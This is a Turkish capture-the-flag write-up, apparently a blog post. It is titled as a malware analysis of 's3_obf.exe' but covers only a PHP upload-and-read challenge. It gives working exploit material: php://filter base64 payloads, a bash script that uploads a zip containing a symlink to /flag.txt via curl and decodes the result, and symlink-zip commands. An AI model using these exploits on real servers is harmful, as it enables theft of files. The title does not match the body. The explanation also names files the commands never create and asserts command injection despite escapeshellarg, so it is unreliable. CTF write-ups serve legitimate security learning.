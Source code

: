 ```yaml
---
title: "Kapsul CTF Malware Çözümü"
layout: post
---
```



s3_obf.exe Zararlı Dosyasının Statik ve Dinamik Write-Up



#### PHP Vuln Script

```php

<?php
session_start() or die('session_start');

$_SESSION['sandbox'] ??= bin2hex(random_bytes(16));
$sandbox = 'data/' . $_SESSION['sandbox'];
$lock = fopen($sandbox . '.lock', 'w') or die('fopen');
flock($lock, LOCK_EX | LOCK_NB) or die('flock');

@mkdir($sandbox, 0700);
chdir($sandbox) or die('chdir');

if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file']))
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);

fclose($lock);
?>

```

#### Açıklama

İlk olarak, `session_start()` işlevi çağrılıyor. Bu, sunucu üzerinde bir oturum oluşturmayı sağlar. Eğer oturum zaten başlatılmışsa veya başlatılamıyorsa `(or die('session_start'))`, betik çalışmayı durdurur.
Ardından, `$_SESSION` süper global değişkeninde `sandbox` adında bir anahtar kontrol ediliyor. Eğer 'sandbox' anahtarı tanımlı değilse, `random_bytes(16)` işleviyle rastgele bir 16 baytlık dizi oluşturulup `bin2hex` işleviyle hexadecimal bir dizeye dönüştürülerek `$_SESSION['sandbox']` değişkenine atanır.
`sandbox` dizini, `data/` önekiyle birleştirilerek `$sandbox` değişkenine atanır.
Bir kilitleme dosyası `($sandbox . '.lock')` oluşturulup açılır `(fopen)`. 
Eğer dosya açılamazsa `(or die('fopen'))`, betik çalışmayı durdurur.
flock işlevi, kilitleme dosyasını kilitlemeyi dener. Eğer başka bir işlem tarafından dosya zaten kilitlenmişse veya kilitleme işlemi başarısız olursa `(or die('flock'))`, betik çalışmayı durdurur.
`mkdir` işleviyle `$sandbox` dizini oluşturulur ve izinleri `0700` olarak ayarlanır. Eğer dizin oluşturulamazsa, betik çalışmayı durdurur.
`chdir` işleviyle çalışma dizini `$sandbox` dizini olarak değiştirilir. Eğer dizini değiştiremezse, betik çalışmayı durdurur.
Eğer `$_FILES` süper global değişkeninde 'file' adında bir anahtar varsa, bir dosyanın yüklendiği kontrol edilir.
system işlevi kullanılarak bir komut yolu belirtilir `(/usr/bin/unzip)` ve yüklenen dosyanın geçici konumunu temsil eden `$_FILES['file']['tmp_name']` değeri işleme dahil edilir.
Bu komut, belirtilen dosyayı çıkarır `(unzip)` ve `$sandbox` dizinine yerleştirir. 
`ulimit -v 8192` komutu, işlemin sanal bellek sınırlamasını `8192` kilobayt olarak ayarlar. 
`/usr/bin/timeout -s KILL 2` komutu, unzip işleminin 2 saniye içinde tamamlanmaması durumunda işlemi sonlandırır.

`escapeshellarg($_FILES['file']['tmp_name']))` --> `escapeshellarg` işlevi, bir dizeyi güvenli bir şekilde kabuk argümanı olarak kullanılabilir hale getirmek için kullanılan bir işlevdir.

Eğer `$_GET` süper global değişkeninde 'file' adında bir anahtar varsa, bir dosyanın okunduğu kontrol edilir.

`$_GET['file']` değeri işlenir ve realpath işlevi kullanılarak dosyanın gerçek yolunu elde eder. Ardından `preg_match` işlevi kullanılarak gerçek dosya yolunun boş veya `flag` kelimesini içerip içermediği kontrol edilir.

`realpath($_GET['file'])` işlemi, belirtilen dosyanın gerçek yolunu döndürür. Eğer dosya yoksa veya gerçek yolu bulunamazsa `false` değeri döner.
`preg_match('/(^$|flag)/i', realpath($_GET['file'])`, gerçek dosya yolunu verilen düzenli ifadeye göre kontrol eder. İfade, dosya yolunun boş olup olmadığını veya `flag` kelimesini içerip içermediğini kontrol eder. `i` bayrağı büyük/küçük harf duyarlılığını kapatır.
Eğer gerçek dosya yolü belirlenen kriterleri sağlıyorsa, `readfile` işlevi kullanılarak dosyanın içeriği tarayıcıya gönderilir. Bu, dosyanın içeriğinin tarayıcıda görüntülenmesini sağlar.

Son olarak, `fclose` işlevi kullanılarak kilitleme dosyası kapatılır.

>File Path Check: `$_GET['file']` değeri doğrudan gerçek dosya yolu olarak kullanılıyor. Ancak, realpath işlevi bile olsa bu kullanım güvenli değildir. Kötü niyetli kullanıcılar, dosya yolu manipülasyonu yaparak izin verilmeyen dosyaları okuyabilir veya sistem dosyalarına erişebilir. Güvenli bir dosya yolu kontrolü yapılmalı ve yalnızca belirli bir klasördeki dosyalara erişime izin verilmelidir.

>Command Injection: Dosya yükleme işlemi sırasında `system` işlevi kullanılırken, yüklenen dosyanın güvenli bir şekilde işlenmediği görülüyor. Kötü niyetli kullanıcılar, `$_FILES['file']['tmp_name']` değeri üzerinden komut enjeksiyon saldırıları gerçekleştirebilir ve istenmeyen komutları sunucuda çalıştırabilir. Dosya yükleme işlemi güvenli bir şekilde yapılmalı ve yüklenen dosyaların içeriği doğrulanmalıdır.

>Information Disclosure: Bu istek, readfile işlevini kullanarak bir dosyanın base64 kodlanmış içeriğini tarayıcıya göndermek yerine, "php://filter/convert.base64-encode/resource=exploit" olarak adlandırılan özel bir dosyanın içeriğini kodlayabilir. Eğer bu dosya bir PHP betiği veya hassas bilgiler içeren bir dosya ise, bu sayede saldırgan, hedef sistemin kodunu sızdırabilir veya hassas verilere erişebilir.

>Local File Inclusion: `php://filter/convert.base64-encode/resource=exploit` ifadesi, dosya yolu keşfine yol açabilir. Saldırgan, "exploit" yerine diğer dosya veya dizin isimlerini deneyerek sistemdeki dosyaların listesini elde etmeye çalışabilir. Bu şekilde, saldırgan sistemin dosya yapısını inceleyebilir ve hassas verilerin yerini tespit edebilir.

#### Payload

```php
php://filter/convert.base64-encode/resource=flag.txt
php://filter/convert.base64-encode/resource=./flag.txt
```
Komutları ise bize flag değerini döndürecektir.Fakat önce yukarıda yapıldığı gibi dosya yükleme işlemi yapmak gerekir.

#### Bash Script 

```bash

#!/bin/bash

TARGET='http://example.com'
PAYLOAD='php://filter/convert.base64-encode/resource=exploit'

mkdir -p ExpDir
pushd ExpDir

mkdir -p "$PAYLOAD"
ln -s /flag.txt exploit
zip -y -r exploit.zip *

curl -H 'Cookie: PHPSESSID=OturumBilgisi' "$TARGET" -F "file=@exploit.zip"
curl -s -H 'Cookie: PHPSESSID=OturumBilgisi' "${TARGET}/?file=${PAYLOAD}" | base64 -d

echo
popd

```
#### Command

```py
mkdir file:
cd file:
touch flagx.txt
ln -s flagx.txt flag.txt
cd ..
zip -ry flag.zip file
```

mkdir file: "file" adında bir dizin oluşturur.
cd file: Oluşturulan "file" dizinine geçiş yapar.
touch flagx.txt: "flagx.txt" adında boş bir dosya oluşturur.
ln -s flagx.txt flag.txt: "flag.txt" adında sembolik bir bağlantı oluşturur ve bu bağlantıyı "flagx.txt" dosyasına yönlendirir.
cd ..: Önceki dizine geri döner.
zip -ry flag.zip file: "file" dizinini ve içeriğini "recursive" olarak sıkıştırır ve "file_flag.zip" adlı bir zip arşivi oluşturur.
Bu işlemler sonucunda, "file" dizini içinde "meow.txt" adlı bir dosya ve bu dosyaya bağlantı olarak "flag.txt" adlı sembolik bir bağlantı oluşturulur. Ardından, "file" dizini ve içeriği "file_flag.zip" adlı bir zip arşivine sıkıştırılır.


"recursive" terimi, bir işlemi veya işlemi bir dizin ve içeriğindeki tüm alt dizinler üzerinde tekrarlayarak gerçekleştirmeyi ifade eder.

`zip -r` veya `zip -ry` komutları, zip arşivini oluştururken rekürsif olarak çalışır. Bu, belirtilen dizin ve alt dizinlerindeki tüm dosyaları ve alt dizinleri de dahil ederek bir arşiv oluşturur. Dosyaların ve alt dizinlerin içeriği, arşivin içinde hiyerarşik bir yapıda saklanır.

`zip -r` komutu, dizin ve dosyaları sıkıştırmak için kullanılırken, `zip -ry` komutu, sıkıştırma işlemi sırasında sembolik bağlantıları da korur. Bu, sembolik bağlantılara sahip dosyaların da arşivin içine dahil edileceği anlamına gelir.

Örneğin, zip -ry flag.zip file komutunu kullanarak "file" dizinini rekürsif olarak sıkıştırdığınızda, "file" dizini, içindeki dosyalar ve alt dizinler ile birlikte "flag.zip" adlı bir arşive dahil edilir. Bu şekilde, tüm dizin hiyerarşisi ve içerik korunarak sıkıştırma işlemi gerçekleştirilir.
`file:///flag.txt` komutu ilede çözüm sağlanır.

#### Symbolic Link (Sembolik Bağlantı)

Bir dosyanın veya dizinin başka bir dosyayı veya dizini işaret etmesini sağlayan bir dosya türüdür. 
Bir sembolik bağlantı, dosya sistemi üzerinde bir yol bağlantısı oluşturur ve bu sayede bir dosyanın birden fazla konumda bulunmasını sağlar.


#### Makale

Daha detaylı olarak belirttiğim makaleme ise burada ulaşabilirsiniz [PHP LFI-RFI-RCE](https://cagrieser.com/articles/PHP-LFI-RFI-RCE.pdf)

Aşağıda ki Python Scripti ile gerekli payloadları ayarlarıp dönen yanıtları dışarı aktarıp bakabilirsiniz.
[https://github.com/cagrieser/ReqWeb](https://github.com/cagrieser/ReqWeb)

Bunun dışında Burp Suite ilede Intruder yapabilirsiniz.

![Web](/img/qwb.gif)